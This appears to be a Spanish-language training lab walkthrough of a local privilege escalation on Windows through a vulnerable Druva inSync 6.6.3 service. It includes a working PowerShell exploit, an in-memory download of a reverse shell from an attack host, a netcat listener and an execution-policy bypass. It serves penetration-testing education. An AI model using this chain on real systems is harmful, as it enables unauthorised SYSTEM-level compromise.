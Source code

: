 Podríamos ser capaces de escalar privilegios en sistemas bien parcheados y bien configurados si se permite a los usuarios instalar software o si se utilizan aplicaciones/servicios de terceros vulnerables en toda la organización. Es común encontrar una multitud de diferentes aplicaciones y servicios en las workstations (estaciones de trabajo) con Windows durante nuestras evaluaciones. Veamos un ejemplo de un servicio vulnerable que podríamos encontrar en un entorno real. Algunos servicios/aplicaciones pueden permitirnos escalar a SYSTEM. En contraste, otros podrían causar una condición de denial-of-service (denegación de servicio) o permitir el acceso a datos sensibles como archivos de configuración que contienen contraseñas.

---

### Enumerating Installed Programs

Como se mencionó anteriormente, comencemos enumerando las aplicaciones instaladas para tener una idea del entorno.

```r
C:\htb> wmic product get name

Name
Microsoft Visual C++ 2019 X64 Minimum Runtime - 14.28.29910
Update for Windows 10 for x64-based Systems (KB4023057)
Microsoft Visual C++ 2019 X86 Additional Runtime - 14.24.28127
VMware Tools
Druva inSync 6.6.3
Microsoft Update Health Tools
Microsoft Visual C++ 2019 X64 Additional Runtime - 14.28.29910
Update for Windows 10 for x64-based Systems (KB4480730)
Microsoft Visual C++ 2019 X86 Minimum Runtime - 14.24.28127
```

El resultado parece ser mayormente estándar para una workstation con Windows 10. Sin embargo, la aplicación `Druva inSync` se destaca. Una búsqueda rápida en Google muestra que la versión `6.6.3` es vulnerable a un ataque de command injection (inyección de comandos) a través de un servicio RPC expuesto. Podemos usar [este](https://www.exploit-db.com/exploits/49211) exploit PoC para escalar nuestros privilegios. Desde este [blog post](https://www.matteomalvica.com/blog/2020/05/21/lpe-path-traversal/) que detalla el descubrimiento inicial de la falla, podemos ver que Druva inSync es una aplicación utilizada para “Integrated backup, eDiscovery, and compliance monitoring,” y la aplicación cliente ejecuta un servicio en el contexto de la poderosa cuenta `NT AUTHORITY\SYSTEM`. La escalación es posible al interactuar con un servicio que se ejecuta localmente en el puerto 6064.

### Enumerating Local Ports

Hagamos una mayor enumeración para confirmar que el servicio se está ejecutando como se espera. Una mirada rápida con `netstat` muestra un servicio ejecutándose localmente en el puerto `6064`.

```r
C:\htb> netstat -ano | findstr 6064

  TCP    127.0.0.1:6064         0.0.0.0:0              LISTENING       3324
  TCP    127.0.0.1:6064         127.0.0.1:50274        ESTABLISHED     3324
  TCP    127.0.0.1:6064         127.0.0.1:50510        TIME_WAIT       0
  TCP    127.0.0.1:6064         127.0.0.1:50511        TIME_WAIT       0
  TCP    127.0.0.1:50274        127.0.0.1:6064         ESTABLISHED     3860
```

### Enumerating Process ID

A continuación, mapeemos el process ID (PID) `3324` al proceso en ejecución.

```r
PS C:\htb> get-process -Id 3324

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    149      10     1512       6748              3324   0 inSyncCPHwnet64
```

### Enumerating Running Service

En este punto, tenemos suficiente información para determinar que la aplicación Druva inSync está instalada y en ejecución, pero podemos hacer una última verificación usando el cmdlet `Get-Service`.

```r
PS C:\htb> get-service | ? {$_.DisplayName -like 'Druva*'}

Status   Name               DisplayName
------   ----               -----------
Running  inSyncCPHService   Druva inSync Client Service
```

---

## Druva inSync Windows Client Local Privilege Escalation Example

### Druva inSync PowerShell PoC

Con esta información en mano, probemos el exploit PoC, que es este fragmento corto de PowerShell.

```r
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```

### Modifying PowerShell PoC

Para nuestros propósitos, queremos modificar la variable `$cmd` a nuestro comando deseado. Podemos hacer muchas cosas aquí, como agregar un usuario local admin (que es un poco ruidoso, y queremos evitar modificar cosas en los sistemas cliente siempre que sea posible) o enviarnos una reverse shell. Probemos esto con [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). Descarga el script a nuestra máquina de ataque y renómbralo a algo simple como `shell.ps1`. Abre el archivo y agrega lo siguiente al final del archivo del script (cambiando la IP para que coincida con nuestra dirección y el puerto de escucha también):

```r
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.3 -Port 9443
```

Modifica la variable `$cmd` en el script del exploit PoC de Druva inSync para descargar nuestra reverse shell de PowerShell en memoria.

```r
$cmd = "powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.3:8080/shell.ps1')"
```

### Starting a Python Web Server

A continuación, inicia un servidor web en Python en el mismo directorio donde reside nuestro script `script.ps1`.

```r
python3 -m http.server 8080
```

### Catching a SYSTEM Shell

Finalmente, inicia un listener de `Netcat` en la máquina de ataque y ejecuta el script PoC de PowerShell en el host objetivo (después de [modificar la política de ejecución de PowerShell](https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy) con un comando como `Set-ExecutionPolicy Bypass -Scope Process`). Obtendremos una conexión de reverse shell con privilegios de `SYSTEM` si todo sale según lo planeado.

```r
nc -lvnp 9443

listening on [any] 9443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.7] 58611
Windows PowerShell running as user WINLPE-WS01$ on WINLPE-WS01
Copyright (C) 2015 Microsoft Corporation. All rights reserved.


PS C:\WINDOWS\system32>whoami

nt authority\system


PS C:\WINDOWS\system32> hostname

WINLPE-WS01
```

---

## Moving On

Este ejemplo muestra cuán arriesgado puede ser permitir a los usuarios instalar software en sus máquinas y cómo siempre debemos enumerar el software instalado si llegamos a un servidor o host de escritorio con Windows. Las organizaciones deberían restringir los derechos de administrador local en las máquinas de los usuarios finales siguiendo el principio de privilegio mínimo. Además, una herramienta de whitelisting de aplicaciones puede ayudar a asegurar que solo el software debidamente evaluado sea instalado en las workstations de los usuarios.